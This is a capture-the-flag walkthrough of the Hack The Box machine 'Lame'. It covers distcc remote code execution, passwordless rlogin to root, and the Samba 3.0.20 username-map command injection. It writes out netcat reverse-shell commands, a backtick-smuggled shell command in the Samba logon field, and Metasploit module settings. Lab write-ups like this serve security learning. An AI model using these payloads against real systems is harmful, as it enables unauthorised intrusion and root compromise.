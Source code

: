 ```yaml
---
title: Hack The Box&#58; Lame
permalink: /HTB/Lame
layout: default
---
```

<img src="https://github.com/susMdT/Nigerald/blob/master/assets/images/Lame_Big.png?raw=true" unselectable="on" class="Box_Logo" />

Lame is an easy level box on HackTheBox and covers many basics. There are multiple approaches for this box and overall it was pretty fun.

# Walkthrough
Start off by performing a complete, general nmap scan `nmap -p-`
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```
Note that `distccd`, an exploitable service, is running. Remote code execution is possible through Metasploit. Using `exploit/unix/misc/distcc_exec`, set the payload to `cmd/unix/generic` with the command as `echo "nc -e /bin/bash <ip> <port>" > b.sh ; ./b.sh`. The options should look similar to this
```
Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   3632             yes       The target port (TCP)


Payload options (cmd/unix/generic):

   Name  Current Setting                                                                     Required  Description
   ----  ---------------                                                                     --------  -----------
   CMD   echo "nc -e /bin/bash 10.10.14.4 4444" > b.sh ; chmod +x ./b.sh ; ./b.sh            yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
   ```
This payload creates a script for a reverse shell on the victim machine, makes it executable, then executes it. So before this exploit is run, make sure you have a listener open on your host with `nc -nvlp <port>`. After receiving a connection and upgrading our shell with `python -c 'import pty; pty.spawn("/bin/bash")`, we should have something like this:
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 52475
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@lame:/tmp$ 
```
Enumerating further with `nmap localhost` gives us much more information now.
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
953/tcp  open  rndc
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
3632/tcp open  distccd
4444/tcp open  krb524
5432/tcp open  postgres
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
```
Port 513, rlogin, is dated and vulnerable by default and doesn't require password by default. This can be exploited with `rlogin localhost -l root`.
```
daemon@lame:/tmp$ rlogin localhost -l root
rlogin localhost -l root
Last login: Thu Sep 30 10:48:49 EDT 2021 from :0.0 on pts/0
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have new mail.
root@lame:~#
```
We have successfully rooted the machine.

# Bonus
Something to note about this box is how many attack vectors there are and false leads. Version numbers for many services running were exploitable, but I had not done that on my initial attempt. 

## Alternate Approach: SMB 3.0.20, No metasploit
Doing a more detailed nmap scan, checking version numbers and using scripts with `nmap -sC -sV`, we can find that Samba is running.
```
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```
Googling the version (3.0.20), we can find that this version along with others between 3.0.0 and 3.0.25, are vulnerable to remote code execution (CVE-2007-2447). First, enumeration of the available shares is necessary through `smbmap -H 10.10.10.3`:
```
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```
Since access to the /tmp share is given, an attacker can connect to it and utilize the CVE. Connect to it via `smbclient //10.10.10.3/tmp`:
```
Enter WORKGROUP\kali's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```
Anonymous logon was granted so that is why access was possible. From the Samba terminal, RCE is possible in this version. Running the command ``logon "./=`nohup nc -e /bin/sh <local ip> <local port>`"`` in the Samba terminal while having a listener on the attacking machine with `nc -nvlp <local port>` returns an error in the Samba terminal
```
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.4 4444`"
Password: 
session setup failed: NT_STATUS_IO_TIMEOUT
```
But on the listener, the attacker actually gains a root shell.
```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 38533
whoami
root
```

## Alternate Approach: SMB 3.0.20, with Metasploit
Metasploit makes usages of the CVE much easier. Simply searching for this Samba version in the Metasploit console with `search exploit samba 3.0.20` returns
```
Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```
Using this exploit while setting our options
```
Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  <local ip>       yes       The listen address (an interface may be specified)
   LPORT  <local port>     yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
Will give us a root shell just like the previous method shown.
## Failed Attack Vectors
